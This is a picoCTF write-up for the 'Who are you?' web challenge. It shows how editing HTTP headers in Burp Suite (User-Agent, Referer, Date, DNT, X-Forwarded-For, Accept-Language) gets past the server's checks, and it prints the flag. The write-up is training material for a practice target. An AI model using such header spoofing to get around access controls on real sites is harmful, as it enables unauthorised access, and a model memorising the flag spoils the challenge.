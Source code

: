 # Who are you?

Author: madStacks

Category: Web Exploitation

Flag: `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0da16bb2}`

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## Difficulty

Medium

## Solution

1. Visit the website

2. There is a statement `Only people who use the official PicoBrowser are allowed on this site!`

3. Open your burpsuite and intercept the request

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

4. Just add PicoBrowser to User-Agent

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

5. There is another statement `I don't trust users visiting from another site.` The answer is add referer to request

6. The Referer HTTP request header contains the absolute or partial address from which a resource has been requested. The Referer header allows a server to identify referring pages that people are visiting from or where requested resources are being used. This data can be used for analytics, logging, optimized caching, and more.

   When you click a link, the Referer contains the address of the page that includes the link. When you make resource requests to another domain, the Referer contains the address of the page that uses the requested resource.

```
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
Referer: mercury.picoctf.net:36622
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

7. There's a statement `Sorry, this site only worked in 2018`

8. Just add `Date: 2018` to request

9. There's a statement `I don't trust users who can be tracked`

10. Add `DNT: 1`. DNT is Do Not Track and 1 is the value of DNT (it means true)

11. There's a statement `This website is only for people from Sweden`

12. Add `X-Forwarded-For: <IP Address>` to request

13. To get the ip address is simple.

14. Open your browser and then type `sweden website`, the first website should be from Sweden. Just copy the link address

15. Go to `https://www.iplocation.net/ip-lookup` and paste the link address

16. There's a statement `You're in Sweden but you don't speak Swedish`

17. Change the `Accept-Language: <Language>` to `sv-SE`

![POC 1](image.png)
